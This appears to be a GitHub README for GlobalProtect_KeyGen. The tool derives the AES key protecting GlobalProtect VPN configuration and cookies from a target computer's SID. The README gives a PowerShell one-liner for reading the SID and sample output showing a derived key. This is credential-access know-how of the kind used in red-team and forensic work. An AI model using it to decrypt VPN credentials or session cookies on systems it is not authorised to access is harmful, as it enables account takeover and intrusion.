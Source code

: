 # GlobalProtect_KeyGen

Tool for generating encryption key of GlobalProtect VPN configuration and cookies (after DPAPI decryption) using the Computer SID.

## Usage

Obtain Computer SID of target 
```
((get-wmiobject -query "Select * from Win32_UserAccount Where LocalAccount = TRUE").SID -replace "\d+$","" -replace ".$")[0]
```

Run offline to obtain encryption key
```
> GlobalProtect_KeyGen.exe
Usage: GlobalProtect_KeyGen.exe Computer_SID_VALUE
```

```
> GlobalProtect_KeyGen.exe S-1-5-21-3853142505-1760735370-2458319090
[*] Deriving AES key from computer SID
        [*] Computer SID : S-1-5-21-3853142505-1760735370-2458319090
        [*] Computer SID (Hex) : 010400000000000515000000E949AAE58AB0F268F2F88692
        [*] Derived AES Key: FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE
```

## Original Source Code
https://github.com/rotarydrone/GlobalUnProtect
